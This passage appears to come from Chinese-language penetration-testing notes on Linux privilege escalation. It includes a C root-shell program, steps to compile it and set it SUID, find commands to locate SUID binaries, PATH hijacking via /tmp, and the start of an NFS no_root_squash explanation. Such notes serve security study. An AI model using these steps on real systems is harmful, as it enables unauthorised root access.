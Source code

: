 ```shell
find / -writable 2>/dev/null
```

在可写目录中创建脚本dom.c

```c
#include<unistd.h>
#include<stdio.h>
#include<stdlib.h>
int main()
{
        setgid(0);
        setuid(0);
        system("/bin/bash");
    	return 0;
}

```

使用Gcc编译

```shell
gcc dom.c -o shell
```

赋予shell文件 SUID权限

```
chmod u+s shell
```

将该目录添加到环境变量中，在靶机上搜索拥有suid或者04000权限的文件

```
find / -perm -u=s -type f 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null 
```

然后利用可执行文件去执行编译好的shell即可提权

Linux 中的 PATH 是一个环境变量，它告诉操作系统在何处搜索可执行文件。对于任何未内置于 shell 中或未使用绝对路径定义的命令，Linux 将开始在 PATH 下定义的文件夹中搜索。

添加环境变量

```shell
export PATH=/tmp:$PATH
```

## NFC(网络文件共享)

NFS（网络文件共享）配置保存在 /etc/exports 文件中。此文件是在 NFS 服务器安装期间创建的，通常可由用户读取。

**/ etc / exports** 文件包含将哪些文件夹/文件系统导出到远程用户的配置和权限。

<font color=red>这个文件的内容非常简单，每一行由抛出路径，客户名列表以及每个客户名后紧跟的访问选项构成：</font>

<font color=red>[共享的目录] [主机名或IP(参数,参数)]</font>>

**Root Squashing**（*root_sqaush*）参数阻止对连接到NFS卷的远程root用户具有root访问权限。远程根用户在连接时会分配一个用户“ ***nfsnobody*** ”，它具有最少的本地特权。如果 no_*root_squash* 选项开启的话”，并为远程用户授予root用户对所连接系统的访问权限。在配置NFS驱动器时，系统管理员应始终使用“ *root_squash* ”参数。
